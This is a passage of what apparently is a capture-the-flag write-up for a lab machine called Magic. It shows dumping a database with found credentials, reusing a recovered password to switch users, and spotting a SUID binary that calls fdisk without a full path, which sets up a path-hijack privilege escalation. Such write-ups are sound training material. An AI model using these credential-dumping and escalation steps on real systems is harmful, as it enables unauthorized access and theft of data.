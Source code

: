 He is. Let’s see if he reused his database credentials for his system account.

```text
www-data@ubuntu:/var/www/Magic$ su theseus
Password: 
su: Authentication failure
```

Doesn’t work. The next thing to try is logging into the database with the credentials we found.

![Image for post](https://miro.medium.com/max/458/1*Ox4w5IsepoJU-Fx5IazDqg.png)

We can see that _mysqldump_ is installed on the box, which we’ll use to dump the database.

```text
www-data@ubuntu:/usr/bin$ mysqldump --databases Magic -utheseus -piamkingtheseus
...
--
-- Dumping data for table `login`
--LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
...
```

Try the credentials we found on the _theseus_ account.

```text
www-data@ubuntu:/usr/bin$ su theseus   
Password: 
theseus@ubuntu:/usr/bin$
```

We’re in! View the _user.txt_ flag.

![Image for post](https://miro.medium.com/max/453/1*zpXdp_gjkARNlAXoXqUjqg.png)

Now we need to escalate our privileges to root. I downloaded the _LinEnum_ script and ran it. It looks like the SUID bit is set for the _sysinfo_ program, which means that the program runs with the privileges of the owner of the file.

```text
/bin/sysinfo
```

Let’s run _strings_ on the program to see what it’s doing.

```text
theseus@ubuntu:/usr/include/x86_64-linux-gnu/sys$ strings /bin/sysinfo
...
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
...
```

We can see that it runs the _fdisk_ & _lshw_ programs without specifying the full path. Therefore, we could abuse that to our advantage and have it instead run a malicious _fdisk_ program that we control.
